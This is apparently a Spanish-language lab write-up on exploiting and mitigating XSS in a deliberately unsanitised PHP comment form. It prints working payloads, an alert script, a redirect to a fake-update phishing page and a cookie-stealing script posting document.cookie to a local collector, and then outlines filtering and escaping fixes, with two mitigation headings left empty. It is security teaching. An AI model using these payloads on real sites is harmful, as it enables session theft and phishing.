 # Explotación y mitigación de Cross-Site Scripting (XSS)

## Objetivos

> [1. Conocer las diferentes formas de ataques XSS](#1-conocer-las-diferentes-formas-de-ataques-xss)  
> [2. Realizar varios ataques XSS](#2-realizar-varios-ataques-xss)  
> [3. Implementar modificaciones al código para mitigar los ataques XSS](#3-implementar-modificaciones-al-código-para-mitigar-los-ataques-xss)  

-----

## 1. Conocer las diferentes formas de ataques XSS

Los ataques **XSS (Cross-Site Scripting)** son un tipo de vulnerabilidad en sitios web donde un atacante inyecta código malicioso (normalmente JavaScript) en una página que otros usuarios van a visitar.
El objetivo suele ser robar cookies, sesiones, datos del usuario o redirigir a sitios maliciosos.
Los tipos de ataques XSS mas comunes son:

+ ***XSS reflejado***: el script va en una URL y se ejecuta cuando el usuario accede al enlace.
+ ***XSS almacenado***: el script queda guardado en el servidor (como en un comentario) y se ejecuta cuando alguien ve la página.
+ ***XSS DOM-based***: el script se ejecuta por culpa de cómo la propia página maneja el contenido con JavaScript.


## 2. Realizar varios ataques XSS

Vamos a realizar diferentes pruebas en las que realizamos ataques de XSS a sitios inseguros:

Comenzamos creando un fichero php en nuestro servicio de apache con un pequeño formulario, y sin realizar ningun tipo de validación ni sanitización de la entrada:

![php1](./Imagenes/1.png)

Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado: [comentario]".

![php1](./Imagenes/2.png)

Si en lugar de introducir un comentario introducimos código *Javascript*, al mostrarse en la página el comentario, el navegador va a interpretar ese código:

Vamos a introducir el siguiente código:

`<script>alert('XSS ejecutado!')</script>`

El navegador lo interpreta y muestra una ventana emergente:

![php1](./Imagenes/3.png)

También podemos redirigir a una página de *Phishing* con el siguiente código:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![php1](./Imagenes/4.png)

Ahora vamos a crearnos un fichero en nuestro servicio web para que se almacenen las *coookies* de los usuarios:

```
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
```
Y en el fichero ***index.php*** introducimos el código de [Este archivo](./Recursos/index.php)

Ahora si introducimos el siguiente código Javascript en el formulario:

```
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
```
Va a mandar las cookies a nuestro fichero ***index.php***:

![php1](./Imagenes/5.png)

![php1](./Imagenes/6.png)

## 3. Implementar modificaciones al código para mitigar los ataques XSS

En este apartado vamos a implementar modificaciones en el código php del formulario, que filtren y sanitizen la entrada del usuario, para evitar estos ataques de XSS:

### filter_input() para filtrar caracteres:

Creamos el documento [comment1.php](./Recursos/comment1.php)

### htmlspecialchars() para sanitizar la entrada:

Creamos el documento [comment2.php](./Recursos/comment2.php)

### Validar la entrada:

Creamos el documento [comment3.php](./Recursos/comment3.php)

## Protección contra inyecciones HTML y JS (XSS)


## Protección contra ataques CSRF


## Formulario seguro
 Creamos el documento [comment4.php](./Recursos/comment4.php) con todas las mitigaciones anteriores.
